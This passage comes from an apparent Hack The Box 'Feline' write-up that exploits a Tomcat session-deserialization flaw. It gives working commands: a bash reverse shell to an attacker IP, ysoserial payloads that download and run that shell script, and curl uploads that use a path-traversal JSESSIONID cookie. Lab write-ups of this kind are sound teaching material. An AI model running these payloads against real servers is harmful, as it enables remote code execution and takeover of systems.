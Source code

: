 There are a number of prerequisites for this vulnerability to be exploitable.

- The **PersistentManager** is enabled and it’s using a FileStore
- The attacker is able to upload a file with arbitrary content, has control over the filename and knows the location where it is uploaded
- There are gadgets in the classpath that can be used for a Java deserialization attack.

I highly suggest you to read that article in order to get a better understanding.

---

#### Exploitation <a name="exploitation">

![exploit-tomcat](assets/img/posts/feline-htb/exploit-tomcat.png)

As per the above screenshot, we can change the value of "JSESSIONID" cookie to the path of our uploaded file and tomcat will find it, deserialize it and parse session information from it.


We will do that using curl but for creating serialized payloads of system commands, we can use [ysoserial](https://github.com/frohoff/ysoserial)

It has variety of payloads which we can use to create serialized payloads of system commands and we will upload that serialized payloads to virusbucket, once tomcat deserializes the payload and try to parse session information out of it, the system commands will get executed.

```bash
echo 'bash -i >& /dev/tcp/10.10.14.44/10000 0>&1' > shell.sh ; chmod +x shell.sh # Payload Data


# This creates the serialized payload. One which contains the curl command to download reverse shell script and the other to execute the reverse shell script.
java -jar /opt/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections2 "curl http://10.10.14.44:9001/shell.sh -o /tmp/shell.sh" > payload1.session
java -jar /opt/ysoserial/ysoserial-master-SNAPSHOT.jar CommonsCollections2 'bash /tmp/shell.sh' > revexec.session

# Using curl to send request to the server with JSESSIONID based on the exploit and uploading the serialized files in "image" parameter.
curl http://10.10.10.205:8080/upload.jsp -H "Cookie: JSESSIONID=../../../opt/samples/uploads/payload1" -F image=@payload1.session
sleep 2
curl http://10.10.10.205:8080/upload.jsp -H "Cookie: JSESSIONID=../../../opt/samples/uploads/revexec" -F image=@revexec.session
```
